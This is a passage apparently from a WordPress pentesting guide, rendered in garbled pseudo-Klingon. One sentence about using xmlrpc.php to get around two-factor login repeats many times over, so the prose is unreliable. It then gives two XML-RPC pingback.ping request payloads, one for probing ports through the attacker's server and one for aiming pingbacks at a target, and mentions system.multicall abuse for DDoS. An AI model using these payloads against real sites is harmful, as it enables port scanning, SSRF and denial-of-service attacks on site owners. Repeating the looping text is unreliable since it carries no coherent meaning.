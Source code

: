 vaj xmlrpc.php 'e' vItlhutlh 2FA. So, 'ej valid creds 'utlh, 'ach 'oH 2FA DaH jImej login xmlrpc.php 'e' vItlhutlh. Qapla'! QaH jatlhlaHbe'chugh, 'ej 'oH, vaj xmlrpc.php 'e' vItlhutlh 2FA. So, 'ej valid creds 'utlh, 'ach 'oH 2FA DaH jImej login xmlrpc.php 'e' vItlhutlh. Qapla'! QaH jatlhlaHbe'chugh, 'ej 'oH, vaj xmlrpc.php 'e' vItlhutlh 2FA. So, 'ej valid creds 'utlh, 'ach 'oH 2FA DaH jImej login xmlrpc.php 'e' vItlhutlh. Qapla'! QaH jatlhlaHbe'chugh, 'ej 'oH, vaj xmlrpc.php 'e' vItlhutlh 2FA. So, 'ej valid creds 'utlh, 'ach 'oH 2FA DaH jImej login xmlrpc.php 'e' vItlhutlh. Qapla'! QaH jatlhlaHbe'chugh, 'ej 'oH, vaj xmlrpc.php 'e' vItlhutlh 2FA. So, 'ej valid creds 'utlh, 'ach 'oH 2FA DaH jImej login xmlrpc.php 'e' vItlhutlh. Qapla'! QaH jatlhlaHbe'chugh, 'ej 'oH, vaj xmlrpc.php 'e' vItlhutlh 2FA. So, 'ej valid creds 'utlh, 'ach 'oH 2FA DaH jImej login xmlrpc.php 'e' vItlhutlh. Qapla'! QaH jatlhlaHbe'chugh, 'ej 'oH, vaj xmlrpc.php 'e' vItlhutlh 2FA. So, 'ej valid creds 'utlh, 'ach 'oH 2FA DaH jImej login xmlrpc.php 'e' vItlhutlh. Qapla'! QaH jatlhlaHbe'chugh, 'ej 'oH, vaj xmlrpc.php 'e' vItlhutlh 2FA. So, 'ej valid creds 'utlh, 'ach 'oH 2FA DaH jImej login xmlrpc.php 'e' vItlhutlh. Qapla'! QaH jatlhlaHbe'chugh, 'ej 'oH, vaj xmlrpc.php 'e' vItlhutlh 2FA. So, 'ej valid creds 'utlh, 'ach 'oH 2FA DaH jImej login xmlrpc.php 'e' vItlhutlh
```markup
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```
![](../../.gitbook/assets/1\_JaUYIZF8ZjDGGB7ocsZC-g.png)

**faultCode** **0** (17) **veQ** **greater** **value** **'ej** **port** **open** **'e'**.

**`system.multicall`** **abuse** **method** **cause** **DDoS** **ghaH** **'ej** **previous** **section** **look** **jatlh**.
```markup
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param><value><string>http://target/</string></value></param>
<param><value><string>http://yoursite.com/and_some_valid_blog_post_url</string></value></param>
</params>
</methodCall>
```
![](<../../.gitbook/assets/image (103).png>)
